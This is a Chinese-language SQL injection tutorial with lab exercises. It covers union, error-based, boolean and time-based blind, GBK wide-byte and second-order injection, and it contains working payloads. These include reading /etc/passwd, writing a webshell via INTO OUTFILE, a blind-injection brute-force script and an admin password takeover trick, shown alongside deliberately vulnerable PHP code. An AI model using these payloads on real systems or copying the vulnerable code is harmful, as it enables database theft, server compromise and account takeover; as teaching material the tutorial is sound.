








# sql注入深入浅析

> [L_AnG](http://l-ang.ren)

## 认识注入
### sql注入的前今世

sql注入早期运用的话应该是在98年，那时候从来没有人注意过这个漏洞，所以简单的说，如果你掌握一点点的sql注入知识，让你回到2005年左右，你可以打穿半个地球

看下几个新闻：

*  TalkTalk的信息泄漏事件导致约15万人的敏感信息被暴露，涉嫌造成这一事件的其中一名黑客使用的并不是很新的技术。事实上，该技术的「年纪」比这名15岁黑客还要大两岁。

>［译注：TalkTalk是英国电话和宽带供应商，这件信息安全事故发生在2015年10月份，当时这件事情还挺轰动的，上了新闻头条，其中一名黑客年仅15岁。］

* [3亿单引号](http://www.computerworld.com/article/2484351/security0/sql-flaws-remain-an-achilles-heel-for-it-security-groups.html)
* 来看一下最牛逼的sql注入


有人说 **SQL 注入，永不过时的黑客技术**
### 什么是sql注入
> SQL Injection：就是通过把SQL命令插入到Web表单递交或输入域名或页面请求的查询字符串，最终达到欺骗服务器执行恶意的SQL命令。具体来说，它是利用现有应用程序，将（恶意）的SQL命令注入到后台数据库引擎执行的能力，它可以通过在Web表单中输入（恶意）SQL语句得到一个存在安全漏洞的网站上的数据库，而不是按照设计者意图去执行SQL语句。 来自百度

> SQL注入产生的原因，和栈溢出、XSS等很多其他的攻击方法类似，就是未经检查或者未经充分检查的用户输入数据，意外变成了代码被执行。针对于SQL注入，则是用户提交的数据，被数据库系统编译而产生了开发者预期之外的动作。也就是，SQL注入是用户输入的数据，在拼接SQL语句的过程中，超越了数据本身，成为了SQL语句查询逻辑的一部分，然后这样被拼接出来的SQL语句被数据库执行，产生了开发者预期之外的动作。  来自知乎

#### 代码展示
```php
    $uid=$_GET['uid'];
    $query = "SELECT * FROM `flag` WHERE uid='$uid'";
    $result = mysqli_query($db,$query);
    $row = mysqli_fetch_array($result);
    echo "查询结果：".$row['unm']."<br><br><br>";
```
### sql产生原因

第一种：程序员太菜，太懒，太忙。由于各种大意，或者压根不知道这么一回事而导致的。通常来说，这类情况多输出现在初级程序员身上。但是也有资深的程序员犯这种低级错误。人都有具体的情况。每天的休息状况，情绪，状态都不同。只要是人就难免有出错的时候。

第二种：程序架构复杂，人数多，设计不够好就会出问题。比如数据从前端到数据库经历的代码是3个人写的。每个人都可以处理，但由于沟通，设计不利。每个人都认为别人会处理。就过导致谁都没处理。

### sql注入的危害
因为wooyun暂时关闭，所以这是从补天上面截的图


可以看出，每天都有大量的sql注入事件被提交，而事件对象参差不齐，小到地方小学，大到政府机构，都有可能遭到黑客的sql注入攻击

而这些注入往往能窃取到用户的大量数据
我以**百万数据**为关键词搜索下补天


涉及到大量数据泄露的，基本都是注入漏洞造成的
而在owasp风险评级中，sql注入的评级也是居高不下，因此长久以来都占据这排行榜的前列
>[owasp风险评估](http://wenku.baidu.com/link?url=-cMYXeNMmzxC1WVOwYin1eMT1cWXtMrfZY_ydLzsqIE5NSuqEkxG_pi1MNekAiucmDPHIDhXeYrdYLj48gljBQhLuAcAhVboTWRTcl3YDj_)

### sql注入的类型
sql注入在传统上分为三大类

* Get型注入

* Post型注入

* Cookie注入

其余的注入按照攻击方式还分为http头注入，搜索框注入等等

对于php网站来说，一般用户与服务器传参，都使用的是**$_GET[]**,**$_COOKIE[]**,**$_POST[]**三种超全局变量来获取用户输入，而注入类型的划分，也是根据获取数据方式的划分来定义的

而细分的话实际还分成了字符型和数字型的注入

SQL数据库将单引号字符解析成代码与数据的分界线：单引号外的内容均是需要运行的代码，而单引号内的内容则是数据
所以注入时，我们往往要根据测试结果去闭合代码中的引号

简单的看下三种用户代码，我们从代码来分析认识下三种sql注入
{实验：分析三种代码，演示最基本的注入方式。get通过手注与sqlmap，post通过sqlmap或者sqlmap+bs，cookie通过手注或者sqlmap，学生自己搭建出GET注入root权限，并攻击}
# 结

## sql注入攻击方式讲解
* root写shell
* 报错注入
* 盲目注入
* 宽字节注入
* 二次注入
* 万能密码
* 绕过过滤

### root写入shell

Mysql提供了两个函数，一个是**LOAD_FILE**,另一个时**SELECT INTO OUTFILE**
第一个函数能够读取文件内容并将其作为字符串返回，而要求就是拥有文件的**完整路径**以及调用此函数的用户必须具有**FILE**权限，这是一种管理员权限，root默认拥有，而新创用户管理数据库则往往不具有这种权限

**我们执行命令看看**

`MariaDB [(none)]> select load_file('/etc/passwd');`



可以看到，读取到了系统的passwd文件，同样理由，我们可以读取网站代码
而**INTO OUTFILE**则是写入操作，我们可以通过此方法写入webshell

```shell
MariaDB [(none)]> select '123' into outfile '/srv/http/1.txt';

Query OK, 1 row affected (0.00 sec)
```
这时候我们的目录下就会创建一个1.txt文件，其中的内容为123

但要注意，我们如果是通过外部写入数据的话，必须要把要写入的内容做一个HEX ENCODE，然后再写入，而另一个问题就是路径问题，如果对方的环境是windows，那么路径必须是\\双反斜杠，否则会被转义

所以当遇到一个注入时，往往想到的第一步都是先查看user()，如果是root的话就想办法找路径，这样就能直接写入shell，例如phpmyadmin或者后台sql操作台写shell
{实验:mysql实验两个函数效果,之前的GET页面root写shell，织梦后台写shell}

### 报错注入
mysql的报错注入有很多中方式
而报错原理也多种多样，我们讲一讲其中最常用的两种报错

#### 1. 双查询注入 floor()
双查询这种方法适用于注入的时候没有返回位,就是你们union select 1,2,3,4,5,6,7,8 这里是8个字段,固定的套路是

```
union select 1 from (select+count(*),concat(floor(rand(0)*2),( 注入爆数据语句))a from information_schema.tables group by a)b
```
对于此注入语句的原理解释

再次直接MARK下两个地方的解释

1. [知乎](http://www.zhihu.com/question/21031129)
2. [报错原理](http://mp.weixin.qq.com/s?__biz=MzA5NDY0OTQ0Mw==&mid=403404979&idx=1&sn=27d10b6da357d72304086311cefd573e&scene=1&srcid=04131X3lQlrDMYOCntCqWf6n#wechat_redirect)

#### 2.ExtractValue(）报错

这个报错语句很简单
```shell
MariaDB [(none)]> select extractvalue(1,concat(0x5c,(select user())));
ERROR 1105 (HY000): XPATH syntax error: '\root@localhost'
```
这个函数是返回XML值的，会将查询结果按照错误输出，但是有个问题就是，有长度限制为32位
例如：

```shell
MariaDB [(none)]> select extractvalue(1,concat(0x5c,(select '1111111111111111111111111111111111111111111111111111111111111')));
ERROR 1105 (HY000): XPATH syntax error: '\1111111111111111111111111111111'
```
只输出了32个1

mysql的报错还有十多种，但其余的大部分点都有约束条件，所以这儿就不一一解释(详情请见：《代码审计》第157页)
{实验:使用双查询注入报错，注入出数据}

#### 盲目注入

盲注分为两种，一个是bool型盲注，另一个为时间型盲注，而这些都属于高级注入语句

#### 1.bool型
基于布尔的盲注

就是盲注的一种场景，提交一个导致SQL查询无效的漏洞时会返回一个通用的错误页面，而提交正确的SQL时则会返回一个不可控的页面，简单来说就是：
```
SQL正确时，返回正确的页面（1）

SQL错误时，返回通用的错误页面（0）
```
正如同我标注的一样，类似于bool的情况，这种情况下，我们很难得到自己想要的信息，那么，就要靠盲注了，也就是一种注入推断

通过注入点向数据库问问题，例如“现在用的数据库是XXX吗？”，“当前用户是ROOT吗？”，“数据库名字长度大于10吗？”，诸如此类的问题，然后通过返回的页面是1还是0来验证我们的问题是否正确

在直接测试之前，先来认识几个函数的用法
```shll
length（）
```
这个函数可以显示出字符串的长度



查询出当前数据库的长度
```shell
Substr()
```
从指定字符串中规定位置抽取规定长度的字符


```shell
Asscii()
```
把指定的字符转成相应的Ascii码



还有一个就是mysql中的limit的使用

例如
```shell
mysql> SELECT * FROM table LIMIT 5,10; // 检索记录行 6-15
```
当返回的查询结果是多条的话，我们可以通过limit控制返回



就象这样，返回第一行的查询结果，返回第二行的返回结果，返回第三行的返回结果

这是bool型盲注的基础知识，那么，我们真正遇到的情况又会是哪些呢？

就如同你看到一个**?id=1**的参数，会再后面接上**and 1=1**和**and 1=2**判断一样

可曾想过为什么这样能判断吗？
我们看一下sql语句的执行

正常的查询语句
```shell
MariaDB [sql]> select * from users where id ='1';
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | admin    | admin    |
+----+----------+----------+
1 row in set (0.00 sec)
```
接上1=1判断
```shell
MariaDB [sql]> select * from users where id ='1' and '1'='1';
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | admin    | admin    |
+----+----------+----------+
1 row in set (0.00 sec)
```
那么接上1=2
```shell
MariaDB [sql]> select * from users where id ='1' and '1'='2';
Empty set (0.00 sec)
```
这是因为条件语句的执行判定为先判定and结果
1=1结果为1，当前面的select语句结果为1时，便能输出正确的结果，那么问题就是前面的select永真，而1=2永假，所以and 1=2输出的结果为假
贴一张ascii编码表



而结合上面的注入基础知识，我们看看在mysql中的执行结果
```shell
MariaDB [sql]> select * from users where id ='1' and ascii(substr((select user()),1,1))=114;
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | admin    | admin    |
+----+----------+----------+
1 row in set (0.00 sec)
```
可以看到输出了正确的结果，就这样，我们可以知道user()的第一位的ascii编码为**114**，也就是**r**

#### 2.time型注入

基于布尔的注入是因为页面只能返回是或否两种页面，以此来判断我们查询的内容，但是我们也有可能遇到这些情况：

不管输入什么都只显示当前页面

错误输出不单一，多种错误形式

这些情况下，我们就不能通过布尔来判定我们查询的结果了，这时候，就应该使用另一种高级注入方法：时间注入

时间注入有两种注入的函数，这儿我只讲**Sleep()**
在Mysql中可以通过这个函数延迟输出

而在mysql中还有个判断函数是if()
```
If(condition,action1,action2)
```
直接看看Mysql中的情况：
```shell
MariaDB [sql]> select sleep(0.5);
+------------+
| sleep(0.5) |
+------------+
|          0 |
+------------+
1 row in set (0.50 sec)
```
这是sleep的测试结果，mysql上返回了执行时间，而在web部分的话，我们可以通过Burpsuite抓包，大致判断是否有时间注入
```
MariaDB [sql]> select if(user()='root@localhost',sleep(2),null);
+-------------------------------------------+
| if(user()='root@localhost',sleep(2),null) |
+-------------------------------------------+
|                                         0 |
+-------------------------------------------+
1 row in set (2.00 sec)
```
执行时间是2，说明我们的user()是root

那么实际上的操作代码应该是这样的：
```
MariaDB [sql]> select * from users where id ='1' and if(ascii(substr((select user()),1,1))=114,sleep(2),null);
Empty set (2.00 sec)

MariaDB [sql]> select * from users where id ='1' and if(ascii(substr((select user()),1,1))=114,sleep(3),null);
Empty set (3.00 sec)
```
可以看到，我们再次可以判断出user()的第一个字节

**盲目注入常常通过写脚本解决**
```python
import requests
urltest="" #验证页面，通常为正确页面
URL=requests.get(urltest)
for j in range(17):
	for i in range(33,125):
		i=str(i)
		j=str(j)
		url="http://xxx.com/sql.php?id=1 and ascii(substr(keyword,"+j+",1))="+i #注入用于比对的URL
		url=requests.get(url)
		if url.text==URL.text:
			print chr(int(i))
```
{实验:测试两种盲目注入，爆出数据，编写python脚本}


### 宽字节注入

宽字节注入的作用是非常大的，实际上在代码层的防御一般不外乎两种，一是反斜杠转义，而就是replace替换成空字节，之前的替换空字节也就是各种bypass，想办法绕过代码层定制的黑名单，那么，转义的话，就不像替换那么好绕了

要么不用被转义的字符，要们就只能想办法构造了，这时候，便有了一个很牛逼的构造方法，GBK双字节绕过，实际也算是宽字节注入，这个可以看看一本书

    《双字节编码 php的隐形杀手》

宽字节注入的方法也很简单，就是编码，我们一点点分析

假设一个URL存在注入但是有**addslashes**，**mysql_real_escape_string**，**mysql_escape_string**等等函数实现转义就比如如下代码

```
function check_addslashes($string)

{

$string = preg_replace('/'. preg_quote('') .'/', "\", $string); //escape any backslash

$string = preg_replace('/'/i', ''', $string); //escape single quote with a backslash

$string = preg_replace('/"/', """, $string); //escape double quote with a backslash

return $string;

}
```

定义了个一个过滤函数，然后使用它

```
if(isset($_GET['id']))

{

$id=check_addslashes($_GET['id']);

mysql_query("SET NAMES gbk");

$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";

$result=mysql_query($sql);

$row = mysql_fetch_array($result);
```

这儿形成的URL应该是

```
http://www.xxx.com/index.php?id=1
```

我们敲单引号会被过滤，但又必须要敲，那么怎么办呢？这时候就利用GBK双字节注入

我们在后边这么构造URL

http://www.xxx.com/index.php?id=1%df'and 1=2 union select 1,2,3%23

这样的话id的参数传入代码层，就会在'前加一个，由于采用的URL编码，所以产生的效果是

**%df%5c%27**

关键就在这，%df会吃掉%5c，形成一个新的字节,举个例子就是%d5遇到%5c会把%5c吃掉，形成%d5%5c，这个编码经过代码解码后会形成一个汉字“誠”

说的再形象点，我来画个画解决




>基本解释：因为%df的关系，的编码%5c被吃掉了，也就失去了转义的效果，直接被带入到mysql中，然后mysql在解读时无视了%a0%5c形成的新字节，那么单引号便重新发挥了效果


**那么真正的原因是什么呢？**

**GBK双字节注入到底是怎么来的呢？**

宽字节注入发生的位置就是PHP发送请求到MYSQL时字符集使用**character_set_client**设置值进行了一次编码。

http://www.xxx.com/index.php?id=1%df'and 1=2 union select 1,user(),3%23

按照这个参数，我们在页面输出$sql，看看最终传入到mysql中的语句构造
```
SELECT * FROM users WHERE id='1運' and 1=2 union select 1,user(),3#' LIMIT 0,1
```
我们可以看到，单引号前并没有\，而是多了一个汉字
***運***

那么这句传入到mysql中运行的结果是什么呢？



输出了user()

这是为什么呢？为什么在传入到mysql时，%df%5c%27会变成運'？

宽字节注入的发生位置在PHP发送请求到MYSQL时字符集使用character_set_client设置值进行了一次编码。

就是这一次编码，发生了这一切
```
当一个Mysql连接请求从客户端传来的时候，服务器认为它的编码是character_set_client，
然后会根据character_set_connection把请求进行转码，从character_set_client转成character_set_connection，
然后更新到数据库的时候，再转化成字段所对应的编码
如果使用了set names指令，那么可以修改character_set_connection的值，
也同时会修改character_set_client和character_set_results的值
当从数据库查询数据返回结果的时候，将字段从默认的编码转成character_set_results
```
这儿会产生什么呢？

我们追踪下数据的变化过程

```
%df%27===>(addslashes)====>%df%5c%27====>(GBK)====>運’
```

**用户输入==>过滤函数==>代码层的$sql==>mysql处理请求==>mysql中的sql**

mysql_query("SET NAMES gbk");


当这行代码在代码层被写入时，三个字符集（客户端、连接层、结果集）都是GBK编码。

那么便会发生如上的情况


这儿mysql对于那个新形成的字符的处理,mysql因为其不是别为将其当做不存在

到这儿，基本就说的差不多了，还剩最后的一部分了，哪些能形成宽字节呢？

GBK双字节编码：一个汉字用两个字节表示，首字节对应0x81-0xFE，尾字节对应0x40-0xFE（除0x7F），刚好涵盖了对应的编码0x5C。

安全方案

对于宽字节编码，有一种最好的修补就是：

（1）使用mysql_set_charset(GBK)指定字符集

（2）使用mysql_real_escape_string进行转义
{实验:宽字节手工注入,sqlmap认识unmagicquotes.py}

### 二次注入

二次注入属于比较少见的一个注入，一般程序员都不会写出来
二次注入的原理也很简单，我们直接从代码分析一下就可以了
```
  if($pass==$re_pass)
    {
        $sql = "UPDATE users SET PASSWORD='$pass' where username='$username' and password='$curr_pass' ";
        $res = mysql_query($sql) or die('You tried to be smart, Try harder!!!! :( ');
        $row = mysql_affected_rows();
```
二次注入发生在哪儿呢？
发生在有注册，有更改密码的情况下

比如你知道某个网站的管理名称是**admin**，但是你不知道他的密码，怎么办呢？

你可以注册一个名称为**admin'#**的用户，然后改自己的密码就能把admin的密码改了

```
UPDATE users SET PASSWORD='789' where username='admin'#' and password='123' ";
```
{实验:二次注入}

# 结

## RedTigers Hackit
这是国外的一个挑战赛，可以尝试下，我们讲解下前几道题

[链接](https://redtiger.labs.overthewire.org)
